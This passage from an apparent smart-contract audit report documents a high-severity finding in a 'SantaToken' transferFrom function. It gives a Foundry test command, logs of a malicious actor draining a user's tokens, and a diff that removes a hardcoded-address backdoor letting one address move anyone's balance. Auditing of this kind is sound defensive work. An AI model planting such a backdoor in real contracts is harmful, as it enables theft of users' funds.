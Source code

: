 run the test with following command:

```javascript
    forge test --match-test testMaliciousTransferFrom -vvvv
```

take a Look at the `Logs`:

```javascript
    Logs:
        Current SantaToken `user` Balance After Collecting Present:  1000000000000000000
        MaliciousActor Comes in Tries to Call transferFrom() to Steal `user` balance.
        Current SantaToken `user` Balance After MaliciousActor Stole his/her Tokens:  0
        Current SantaToken `maliciousActor` Balance After Stealing it From `user` with transferFrom() function:  1000000000000000000
```


**Recommended mitigation**

remove this part from the `transferFrom()` function:

```diff
    function transferFrom(address from, address to, uint256 amount) public virtual returns (bool) {
-       if (msg.sender == 0x815F577F1c1bcE213c012f166744937C889DAF17) {
-           balanceOf[from] -= amount;
-           unchecked {
-               balanceOf[to] += amount;
-           }
-           emit Transfer(from, to, amount);
-           return true;
-       }

        uint256 allowed = allowance[from][msg.sender]; // Saves gas for limited approvals.

        if (allowed != type(uint256).max) allowance[from][msg.sender] = allowed - amount;

        balanceOf[from] -= amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(from, to, amount);

        return true;
    }
```

### [HIGH-2] Wrong Status order, every Address is Considered `NICE` by Default.

**Description**
